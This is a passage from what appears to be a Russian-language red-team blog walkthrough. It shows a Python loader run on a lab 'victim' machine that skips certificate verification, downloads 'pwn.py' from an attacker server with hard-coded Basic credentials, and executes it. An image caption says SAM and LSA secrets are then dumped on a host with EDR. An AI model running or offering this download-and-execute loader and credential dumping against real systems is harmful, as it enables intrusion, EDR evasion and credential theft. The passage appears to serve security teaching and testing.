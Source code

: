 {:.center-image}

Подготовка HTTP-сервера с SSL-сертификатом и Basic-аутентификацией
{:.quote}

После этого на нашей импровизированной машине-жертве я загружу свежий релиз standalone-интерпретатора Python с официального сайта, запущу `python.exe` от имени администратора и выполню команды загрузчика.

```python
import ssl
import urllib.request
from base64 import b64encode
context = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
context.check_hostname = False
context.verify_mode = ssl.CERT_NONE
request = urllib.request.Request('https://10.10.13.37/pwn.py')
auth = b64encode(bytes('attacker:Passw0rd1!', 'ascii')).decode()
request.add_header('Authorization', f'Basic {auth}')
payload = urllib.request.urlopen(request, context=context).read()
exec(payload)
```

[![pyramid-secretsdump-sam-lsa.png](/assets/images/python-pyramid/pyramid-secretsdump-sam-lsa.png)](/assets/images/python-pyramid/pyramid-secretsdump-sam-lsa.png)
{:.center-image}

Тянем SAM и LSA на машине с EDR
{:.quote}

